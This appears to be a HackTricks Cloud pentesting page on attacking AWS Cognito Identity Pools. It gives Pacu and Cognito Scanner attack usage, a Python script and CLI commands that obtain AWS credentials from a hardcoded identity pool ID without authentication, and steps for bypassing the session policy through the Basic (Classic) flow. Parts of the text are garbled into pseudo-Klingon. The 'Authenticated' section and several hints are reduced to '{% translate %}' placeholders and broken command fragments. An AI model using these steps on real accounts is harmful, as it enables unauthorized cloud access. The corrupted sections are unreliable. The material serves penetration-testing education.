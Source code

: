 # Cognito Identity Pools

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a><strong> 'e' vItlhutlh</strong> <strong>HackTricks</strong> <strong>tlhInganpu'wI' 'e' vItlhutlh</strong></summary>

HackTricks vItlhutlh:

* 'ej **HackTricks** **PDF** **download** **tlhInganpu'wI' advertise** **company** **tlhInganpu'wI'** **ghItlh** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) **ghItlh**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family), [**NFTs**](https://opensea.io/collection/the-peass-family) **ghItlh** **exclusive** **collection** **tlhInganpu'wI'** **ghItlh**
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **joq** **'ej** [**telegram group**](https://t.me/peass) **joq** **'ej** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking tricks** **tlhInganpu'wI'** **submit** **PRs** **HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) **'ej** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** **tlhInganpu'wI'** **share**.

</details>

## Basic Information

Identity pools serve a crucial role by enabling your users to **acquire temporary credentials**. These credentials are essential for accessing various AWS services, including but not limited to Amazon S3 and DynamoDB. A notable feature of identity pools is their support for both anonymous guest users and a range of identity providers for user authentication. The supported identity providers include:

- Amazon Cognito user pools
- Social sign-in options such as Facebook, Google, Login with Amazon, and Sign in with Apple
- Providers compliant with OpenID Connect (OIDC)
- SAML (Security Assertion Markup Language) identity providers
- Developer authenticated identities
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### Cognito Sync

To generate Identity Pool sessions, you first need to **generate and Identity ID**. This Identity ID is the **identification of the session of that user**. These identifications can have up to 20 datasets that can store up to 1MB of key-value pairs.

This is **useful to keep information of a user** (who will be always using the same Identity ID).

Moreover, the service **cognito-sync** is the service that allow to **manage and syncronize this information** (in the datasets, sending info in streams and SNSs msgs...).

### Tools for pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), the AWS exploitation framework, now includes the "cognito\_\_enum" and "cognito\_\_attack" modules that automate enumeration of all Cognito assets in an account and flag weak configurations, user attributes used for access control, etc., and also automate user creation (including MFA support) and privilege escalation based on modifiable custom attributes, usable identity pool credentials, assumable roles in id tokens, etc.

For a description of the modules' functions see part 2 of the [blog post](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). For installation instructions see the main [Pacu](https://github.com/RhinoSecurityLabs/pacu) page.

#### Usage

Sample cognito\_\_attack usage to attempt user creation and all privesc vectors against a given identity pool and user pool client:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
Sample cognito\_\_enum usage to gather all user pools, user pool clients, identity pools, users, etc. visible in the current AWS account:

```bash
cognito__enum --all
```

This command will enumerate and gather information about all user pools, user pool clients, identity pools, and users that are visible in the current AWS account.
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) vItlh CLI tool python Daq implements different attacks on Cognito including unwanted account creation and identity pool escalation.

#### Installation
```bash
$ pip install cognito-scanner
```
#### lo'laH

#### Usage
```bash
$ cognito-scanner --help
```
For more information check https://github.com/padok-team/cognito-scanner

## Accessing IAM Roles

### Unauthenticated

The only thing an attacker need to know to **get AWS credentials** in a Cognito app as unauthenticated user is the **Identity Pool ID**, and this **ID must be hardcoded** in the web/mobile **application** for it to use it. An ID looks like this: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (it's not bruteforceable).

{% hint style="success" %}
The **IAM Cognito unathenticated role created via is called** by default `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

If you find an Identity Pools ID hardcoded and it allows unauthenticated users, you can get AWS credentials with:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
vaj vItlhutlh **aws cli commands**:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Qapla'! QaStaHvIS unauthenticated cognito **user CANNOT have any permission, even if it was assigned via a policy**. Check the followin section.
{% endhint %}

### Enhanced vs Basic Authentication flow

The previous section followed the **default enhanced authentication flow**. This flow sets a **restrictive** [**session policy**](../../aws-basic-information/#session-policies) to the IAM role session generated. This policy will only allow the session to [**use the services from this list**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (even if the role had access to other services).

However, there is a way to bypass this, if the **Identity pool has "Basic (Classic) Flow" enabled**, the user will be able to obtain a session using that flow which **won't have that restrictive session policy**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
{% translate %}
`{% translate %}`
{% endhint %}

{% translate %}
### Authenticated

{% hint style="info" %}
{% translate %}
{% endhint %}

{% translate %}
{% hint style="success" %}
{% translate %}
{% endhint %}

{% translate %}
<pre class="language-bash"><code class="lang-bash">{% translate %}
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# {% translate %}
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# {% translate %}
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
{% translate %}
{% endhint %}

<details>

<summary><strong>{% translate %}</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>{% translate %}</strong></a><strong>!</strong></summary>

{% translate %}

* {% translate %} [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* {% translate %} [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* {% translate %} [**The PEASS Family**](https://opensea.io/collection/the-peass-family), [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
